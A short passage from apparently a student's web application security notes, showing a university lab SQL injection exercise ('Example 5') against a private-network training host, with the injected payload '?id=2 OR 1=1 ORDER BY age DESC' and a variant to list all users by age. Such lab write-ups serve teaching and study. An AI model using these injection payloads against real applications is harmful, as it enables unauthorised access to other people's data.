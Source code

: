 <img src="https://raw.githubusercontent.com/ryancranie/webappsec/refs/heads/main/_img/Pasted%20image%2020250413162722.png" width="600"/>
-- these next 2 examples are my university scope questions, they have their own objectives -- 

## Example 5 - Oldest to Youngest

`http://172.16.219.145/sqli/example5.php?id=2`

**Objective**: Inject SQL code to reveal all four users’ details sorted by 'age' from oldest at the top to youngest at the bottom.

### Payload

`?id=2 OR 1=1 ORDER BY age DESC`
- Youngest to Oldest: `?id=2 OR 1=1 ORDER BY age`
